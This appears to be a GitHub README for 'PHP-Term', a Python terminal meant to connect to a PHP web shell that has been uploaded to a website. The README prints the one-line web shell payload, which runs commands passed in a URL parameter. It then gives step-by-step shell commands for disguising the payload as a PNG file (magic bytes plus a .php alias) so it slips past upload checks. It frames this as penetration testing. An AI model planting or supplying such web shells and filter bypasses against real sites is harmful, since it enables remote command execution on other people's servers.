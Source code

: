 # PHP-Term
![phpterm](https://github.com/user-attachments/assets/3930a006-4bf9-4257-bd3c-8fef646412b2)

A terminal for penetration testers, to connect to an uploaded php payload. (Made with Python).
The payload itself is one simple PHP code line to give the tester access to a remote reverse shell through unsanitized uplaod features of a website.
It looks like this:
```
<?php system(\$_GET['cmd']); ?>"
```

To further test for sanitized uploads you can use this to create fake PNG files.
E. x.:
Create an empty PNG formatted file:
```
printf "\x89PNG\r\n\x1a\n" > payload.png
```

Append PHP-Payload:
```
echo "<?php system(\$_GET['cmd']); ?>" >> payload.png
```

Give it a PHP alias:
```
mv payload.png payload.png.php
```

This will also work with different file formats and might help you to sanitize the uploads properly.
